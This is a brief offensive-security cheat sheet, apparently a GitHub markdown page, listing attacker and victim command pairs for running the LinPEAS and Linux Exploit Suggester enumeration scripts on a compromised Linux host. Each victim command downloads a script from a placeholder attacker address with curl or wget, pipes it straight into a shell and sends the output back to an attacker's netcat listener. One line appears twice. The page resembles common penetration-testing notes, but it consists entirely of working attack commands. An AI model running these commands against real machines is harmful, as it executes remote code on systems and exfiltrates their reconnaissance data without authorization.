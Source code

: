 # Linux enumeration scripts output formatting command

## LinPEAS

### 1) Attacker

    nc -lvnp NETCAT_PORT | tee linpeas.out

### 2) Victim

    curl ATTACK_IP:WEBSERVER_PORT/linpeas.sh | sh | nc ATTACK_IP NETCAT_PORT

## Linux Exploit Suggester LSE

### 1) Attacker

    nc -lvnp NETCAT_PORT | tee lse.out

### 2) Victim

    bash <(wget -q -O - "http://ATTACK_IP:WEBSERVER_PORT/lse_cve.sh") -l1 -i | nc ATTACK_IP NETCAT_PORT

    bash <(wget -q -O - "http://ATTACK_IP:WEBSERVER_PORT/lse_cve.sh") -l1 -i | nc ATTACK_IP NETCAT_PORT
